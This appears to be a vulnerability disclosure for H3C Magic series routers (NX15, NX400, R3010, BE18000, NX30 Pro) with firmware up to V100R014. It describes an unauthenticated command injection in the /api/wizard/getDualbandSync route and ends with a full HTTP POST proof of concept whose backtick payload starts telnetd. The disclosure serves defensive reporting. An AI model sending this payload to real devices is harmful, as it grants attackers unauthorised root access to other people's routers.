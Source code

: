 ## Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Guan Qing Wen(2144987805@qq.com)

**Affected products:** H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro

**Affected firmware version:** <=V100R014 (Taking NX15 as an example.)

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

## Overview

在 `H3C` 的 `Magic` 系列产品中 `H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro` ，允许攻击者在未授权情况下向 `/api/wizard/getDualbandSync` 路由发送构造的特定 `POST` 数据包，实现获取设备最高权限。

## Vulnerability details

在 `api` 文件中的 `FCGI_WizardProcess` 函数存在路由 `/wizard/getDualbandSync` ，可以触发对应的处理函数

![image-20250314163530353](https://raw.githubusercontent.com/Qwen11/picture/main/202503141635474.png)

因为危险字符忘记过滤反引号，导致命令注入

![image-20250314163623354](https://raw.githubusercontent.com/Qwen11/picture/main/202503141636518.png)

## Poc

```
POST /api/wizard/getDualbandSync HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```
